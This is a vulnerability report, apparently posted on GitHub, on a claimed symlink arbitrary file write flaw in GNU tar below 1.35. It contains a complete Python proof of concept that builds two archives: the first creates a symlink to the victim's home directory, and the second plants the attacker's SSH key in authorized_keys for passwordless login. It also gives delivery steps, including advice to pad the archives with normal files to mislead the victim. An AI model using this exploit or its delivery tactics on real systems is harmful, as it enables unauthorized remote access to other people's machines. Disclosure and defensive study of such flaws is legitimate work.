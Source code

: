 # Gnu tar component has a symbolic link arbitrary file write vulnerability
Author: Set3r.Pan
## Report
### Describe
tar is a file packaging format widely used in Unix and Unix-like systems (such as Linux), which supports processing files or directories containing symbolic links (i.e. soft links). The vulnerability stems from the fact that when tar is decompressed, an attacker can construct a malicious tar package with soft links to implement directory traversal and write arbitrary files, such as creating a ~/.ssh/authorized_keys file, thereby implementing a password-free login attack.
### Hazard level
High
### Affected version
Gnu tar < 1.35 

### POC&&EXP
poc explanation： 
1. Modify tar_poc.py  
Line 12: obj1.linkname = "../../../../../../../home/ubuntu/" # Replace with the actual victim machine home directory path  
Line 39: ssh_pubkey = "/home/kali/.ssh/id_rsa.pub" # Replace with the actual attack machine's SSH public key path  
2. Send the two generated compressed packages to the victim via instant messaging software or other media such as a USB flash drive.(The compressed file can also be filled with some normal files to confuse the other party
)  
3. The victim can unzip them in any directory.  
4. The attacker logs in to the victim's machine without a password.  
tar_poc.py  
```
import socket
import tarfile
import os

RANDOM_DIR_NAME = "my_directory"  # Define random directory names

def build_tar_gz_1(tar_gz_file):
    obj1 = tarfile.TarInfo()
    obj1.name = "{}".format(RANDOM_DIR_NAME)  # Set the name of the soft link
    obj1.mode = 0o777  # Set permissions
    obj1.type = tarfile.SYMTYPE  # Set as a soft link
    obj1.linkname = "/home/ubuntu/"  # Replace with the actual victim machine home directory path

    with tarfile.open(tar_gz_file, "w:gz") as tar:
        tar.addfile(obj1)  # Add soft link to tar.gz

def build_tar_gz_2(tar_gz_file, ssh_pubkey):
    obj1 = tarfile.TarInfo()
    obj1.name = "{}/.ssh/".format(RANDOM_DIR_NAME)
    obj1.mode = 0o700
    obj1.type = tarfile.DIRTYPE

    obj2 = tarfile.TarInfo()
    obj2.name = "{}/.ssh/authorized_keys".format(RANDOM_DIR_NAME)
    obj2.mode = 0o400
    obj2.type = tarfile.REGTYPE
    obj2.size = os.path.getsize(ssh_pubkey)

    with tarfile.open(tar_gz_file, "w:gz") as tar:
        tar.addfile(obj1)  # Add .ssh directory
        with open(ssh_pubkey, "rb") as f:
            tar.addfile(obj2, f) # Add authorized_keys file

# Create 1tar.gz file
tar_gz_file = "my_archive1.tar.gz"
build_tar_gz_1(tar_gz_file)  # Create a tar.gz file containing soft links

# Create 2tar.gz file
tar_gz_file = "my_archive2.tar.gz"
ssh_pubkey = "/home/kali/.ssh/id_rsa.pub"  # Replace with the attacker's actual SSH public key path
build_tar_gz_2(tar_gz_file, ssh_pubkey)  # Create a tar.gz file containing the SSH configuration

```
### Vulnerability Reproduction
1、The attacker can send the two tarballs generated by the POC to the victim through instant messaging software or other media such as a USB flash drive. The victim receives and decompresses them in turn:
![](./imgs/Gnu_tar_vuln_1.png)
2、Successfully overwrote .ssh/authorized_keys：
![](./imgs/Gnu_tar_vuln_2.png)
3、Finally, the attacker can log into the victim's machine through SSH without password.
![](./imgs/Gnu_tar_vuln_3.png)

Reproduction video：  
[Watch the repro video](./imgs/Gnu_tar_vuln_3.mp4)
### Attack Exploitation Analysis
There are two risk points in the tar decompression process:  
1. Uncontrollable soft links  
If the tar file contains soft links (symbolic links), any file or directory can be executed across directories. Attackers can use this to create links to important system files or directories.  
2. File name conflicts  
During the decompression process, if there is a file with the same file name as the decompressed file, tar will overwrite the existing file. If the file is a soft link, it will directly overwrite the target file or directory pointed to by its soft link.

An attacker can use the above risk points to attack by making two tar compressed packages:  
- a. Make the first tar package, which contains a soft link to the user's home directory (for example, my_directory);  
- b. Make the second tar package to overwrite the .ssh folder in the user's home directory (for example, my_directory);  
- c. The user decompresses the two packages, first decompresses the first package to create a soft link, and then decompresses the second package to overwrite the .ssh folder;  
- d. The attacker controls the .ssh folder in the home directory through the soft link, and finally obtains the ssh password-free login permission.  
